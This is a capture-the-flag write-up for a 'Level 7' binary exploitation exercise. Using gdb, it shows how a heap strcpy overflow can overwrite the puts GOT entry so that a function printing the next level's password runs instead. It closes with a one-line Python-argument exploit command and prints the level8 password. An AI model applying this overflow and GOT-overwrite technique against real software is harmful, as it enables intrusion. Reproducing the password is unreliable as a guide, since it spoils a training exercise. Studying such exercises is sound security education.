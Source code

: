 ### Level 7

#### Basic Recon

![](./pics/1.png)
![](./pics/2.png)

as you can see there's call to `printf` maybe we are going to use it and there's some allocations
a function `m` and `fopen`?? and `strcpy` that is useful to but there's no call to system, so we might
need to insert some shell code later we'll see

let's see what is going on in the `m` function

![](./pics/3.png)

let's debug
![](./pics/4.png)
![](./pics/5.png)
![](./pics/6.png)
![](./pics/7.png)
![](./pics/8.png)
![](./pics/9.png)
![](./pics/10.png)
![](./pics/11.png)
![](./pics/12.png)
![](./pics/13.png)
![](./pics/14.png)
![](./pics/15.png)
![](./pics/16.png)
![](./pics/17.png)
![](./pics/18.png)
![](./pics/19.png)
![](./pics/20.png)
![](./pics/21.png)
![](./pics/22.png)
![](./pics/23.png)
![](./pics/24.png)
![](./pics/25.png)
![](./pics/26.png)
![](./pics/27.png)
![](./pics/28.png)
![](./pics/29.png)
![](./pics/30.png)
![](./pics/31.png)

why 97 well that is the ascii of that character `a`

![](./pics/32.png)
![](./pics/33.png)
![](./pics/34.png)
![](./pics/35.png)
![](./pics/36.png)
![](./pics/37.png)
![](./pics/38.png)
![](./pics/39.png)
![](./pics/32.png)
![](./pics/40.png)
![](./pics/41.png)

what are these values you asking well until now I see that they the parameters of `fopen`

```c
FILE *fopen(const char *path, const char *mode);
```
![](./pics/42.png)

well fopen will need to open file of other user (level8) but since we are inside gdb that would fail

![](./pics/43.png)

but let's assume that it will return some pointer when we are out of gdb for example 0x809867f2

![](./pics/44.png)

![](./pics/45.png)

![](./pics/46.png)

so `fgets` will be called like this

```c
fgets(
    0x8049960, // store the data of the input file
    0x44, // how chars to read
    file_stream_was_return_by_fopen_of_pass_of_level_8
);
```
so somehow we need to print what was stored in `0x8049960` because that is were the password will be
saved by `fgets`

![](./pics/47.png)

but as you can see the moment we pass that fgets we will call `puts` with `~~` as parameter, which is
of no use to me, take look at this

![](./pics/3.png)

well we have a call to `m` that calls `printf` maybe we could change GOT so when we call `puts`
we call `printf` but how do you know that well let's see what is beign passed to printf

![](./pics/48.png)

well as you can see from the defintion of `m` that the first parameter to printf is `%s - %d\n`,
and second parameter is `0x08049960`, oh that's where the password is stored, so yeah I'm confident
that it'll work, so let's try it

#### what do we need to do??
>instead of calling puts we shall call `m` but how?

#### Basic Recap
- malloc_1_address: `0x0804a008`
- malloc_2_address: `0x0804a018`
- malloc_3_address: `0x0804a028`
- malloc_4_address: `0x0804a038`

since our input is being copied to malloc_2_address and malloc_4_address using `strcpy`, that has no
limit check we could use that to overwrite GOT

>puts in GOT is at address `ds:0x8049928` how do I know?

![](./pics/49.png)

so if we can override what is stored in `ds:0x8049928` to point to the address of `m` which is
`0x080484f4` we are done so now WE NEED TO OVERRIDE THE ADDRESS `0x8049928`

#### What can we override now??
for now we can override this location `0x0804a018` and `0x0804a038` but both of them are greater than
`0x8049928` so we can not override directly, what can we do? let's step back and see what is going on till this point

![](./pics/50.png)

this the state of memory before any `strcpy` is called

##### Order Of Execution
- first `strcpy` takes it first parameter from the heap not the stack what I mean is the strcpy will take it's value from the picture
- second `strcpy` does the same hold on, we could use the first `strcpy` to change the pointer that is stored in memory to point our target `0x8049928`

so we will write `0x0804a028 - 0x0804a018 = 16` and +4 why because I want to override the second
half of that 8 bytes the half that contains `0x0804a038` before we start overriding the second memory

let's test it

![](./pics/51.png)

memory before first `strcpy`

![](./pics/52.png)

memory after

![](./pics/53.png)

it worked, so now we need to put the address `0x8049928` instead of `abcd` and second parameter shall
contain `0x080484f4` address of `m`


### Exploit

```python3
./level7 $(python -c "print('A'*20 + '\x28\x99\x04\x08')") $(python -c "print('\xf4\x84\x04\x08')")
```

![](./pics/54.png)

### Password for level8

```
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```